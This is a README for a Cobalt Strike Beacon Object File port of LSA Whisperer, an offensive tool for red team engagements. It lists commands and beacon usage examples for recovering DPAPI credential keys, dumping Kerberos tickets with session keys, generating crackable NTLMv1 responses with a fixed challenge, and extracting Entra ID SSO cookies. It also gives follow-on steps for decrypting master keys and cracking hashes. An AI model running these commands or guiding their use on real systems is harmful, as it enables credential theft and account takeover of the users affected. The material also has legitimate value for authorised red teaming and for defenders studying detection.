



# LSA Whisperer BOF



A Cobalt Strike Beacon Object File (BOF) port of [LSA Whisperer](https://github.com/EvanMcBroom/lsa-whisperer) — the tool that talks directly to Windows authentication packages through the LSA untrusted/trusted client interface, without touching LSASS process memory even when PPL and Credential Guard is enabled.

## Why This Exists

LSA Whisperer by [Evan McBroom](https://github.com/EvanMcBroom) (SpecterOps) demonstrated that you can recover DPAPI credential keys, extract cloud SSO tokens, and interact with Kerberos — all through legitimate `LsaCallAuthenticationPackage` API calls. No memory reads, no process injection, no handles to LSASS.

This project brings those capabilities into C2s as BOFs for use during red team engagements. It never opens a handle to the lsass process and all the calls go through LsaCallAuthenticationPackage (the official client API used to talk to lsass), PPL on LSASS doesn't matter at all. PPL protects the LSASS process from being opened/read/injected.

## Commands

### MSV1_0 Module

| Command | Description |
|---|---|
| `lsa-credkey [LUID]` | Recover DPAPI credential key. Works with Credential Guard. |
| `lsa-strongcredkey [LUID]` | Recover strong DPAPI credential key (Win10+). |
| `lsa-ntlmv1 [LUID] [challenge]` | Generate NTLMv1 response with chosen challenge. Default challenge `1122334455667788` is compatible with [crack.sh](https://crack.sh) rainbow tables. |



### Kerberos Module

| Command | Description |
|---|---|
| `lsa-klist [LUID]` | List cached Kerberos tickets. |
| `lsa-dump [LUID]` | Dump all tickets as base64 `.kirbi` blobs with session keys. |
| `lsa-purge [LUID] [server]` | Purge tickets. Supports selective purge by server name. |



### CloudAP Module

| Command | Description |
|---|---|
| `lsa-ssocookie [LUID]` | Extract Entra ID (Azure AD) SSO cookie via AAD plugin. |
| `lsa-devicessocookie [LUID]` | Extract device SSO cookie. |
| `lsa-enterprisesso [LUID]` | Extract AD FS enterprise SSO cookie. |
| `lsa-cloudinfo [LUID]` | Query cloud provider info, TGT status, DPAPI status. |

**LUID**: `0` or omit for current session. Hex value (e.g., `0x3e7`) to target a specific logon session. Targeting other sessions requires SYSTEM.

## Usage Examples

### DPAPI Credential Key Recovery

```
beacon> lsa-credkey 0x21d57
[*] MSV1_0 GetCredentialKey
[+] SUCCESS - DPAPI Credential Keys recovered!
[+] CredSize: 0x28 (40 bytes)
[*] Local CredKey (SHA OWF): <20-byte key>
[*] Domain CredKey (NT OWF): <16 or 20-byte key>
```

Use the recovered key with [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI):

```
SharpDPAPI.exe masterkeys /credkey:<key_hex> /target:<masterkey_path>
```

### NTLMv1 Downgrade

```
beacon> lsa-ntlmv1 0x21d57
[*] MSV1_0 Lm20GetChallengeResponse (NTLMv1 Generation)
[+] NTLMv1 Response generated!
[*] Hashcat (mode 5500):
    DOMAIN\user::HOSTNAME::NTResponse:1122334455667788
```

Submit the response to [crack.sh](https://crack.sh/netntlm/) for instant NT hash recovery with the default challenge.

### Entra ID SSO Cookie

```
beacon> lsa-ssocookie 0x21d57
[+] SSO Cookie received!
[*] Cookie: ESTSAUTH=<token>
```

## Architecture

```
lsa-whisperer-bof/
├── lsa-whisperer.cna          # Aggressor script (load this)
├── Makefile
├── include/
│   ├── bofdefs.h              # BOF API declarations + DFR imports
│   └── lsa_structs.h          # All LSA/MSV1_0/Kerberos/CloudAP structs
├── src/
│   ├── common/
│   │   └── lsa_common.c       # Shared LSA init, helpers, output formatting
│   ├── msv1_0/
│   │   └── msv1_0_bof.c       # MSV1_0 commands
│   ├── kerberos/
│   │   └── kerberos_bof.c     # Kerberos commands
│   └── cloudap/
│       └── cloudap_bof.c      # CloudAP/AAD commands
└── build/                     # Compiled BOFs (after make)
```

Each module compiles to an independent BOF. Common code is included at compile time (standard BOF pattern) — no shared libraries or runtime dependencies.

## Privilege Requirements

| Context | Capability |
|---|---|
| Current user (unprivileged) | `lsa-klist`, `lsa-ssocookie`, `lsa-cloudinfo` for own session |
| SYSTEM (`SeTcbPrivilege`) | All commands targeting any logon session by LUID |

Enumerate available LUIDs with `logonpasswords` or `klist` to find target sessions.

## Operational Notes

- **Credential Guard**: `lsa-credkey` and `lsa-strongcredkey` work through Credential Guard. `lsa-ntlmv1` is blocked by it.
- **CloudAP**: Requires an Entra ID / Azure AD joined device with an active cloud logon session. Won't work on purely on-prem AD environments.
- **NTLMv1**: The default challenge `1122334455667788` enables free rainbow table cracking via crack.sh. Custom challenges work but require standard brute-force.
- **Selective purge**: `lsa-purge` with a server filter only removes matching tickets — useful for targeted Kerberos abuse without disrupting the user's session.

## Credits and Acknowledgments

This project is a BOF port of [LSA Whisperer](https://github.com/EvanMcBroom/lsa-whisperer) by **Evan McBroom** ([@EvanMcBroom](https://github.com/EvanMcBroom)) of [SpecterOps](https://specterops.io). All of the underlying research — the undocumented MSV1_0 protocol messages, the CloudAP/AAD plugin call interface, and the struct definitions that make this possible — is his work.

**Key references:**
- [LSA Whisperer](https://github.com/EvanMcBroom/lsa-whisperer) — Evan McBroom / SpecterOps (MIT License)
- [Exploring Credential Guard](https://posts.specterops.io/exploring-credential-guard-39c0f4975ece) — Evan McBroom
- [nanorobeus](https://github.com/wavvs/nanorobeus) — wavvs (BOF patterns reference)
- [Kerbeus-BOF](https://github.com/RalfHacker/Kerbeus-BOF) — RalfHacker (BOF patterns reference)

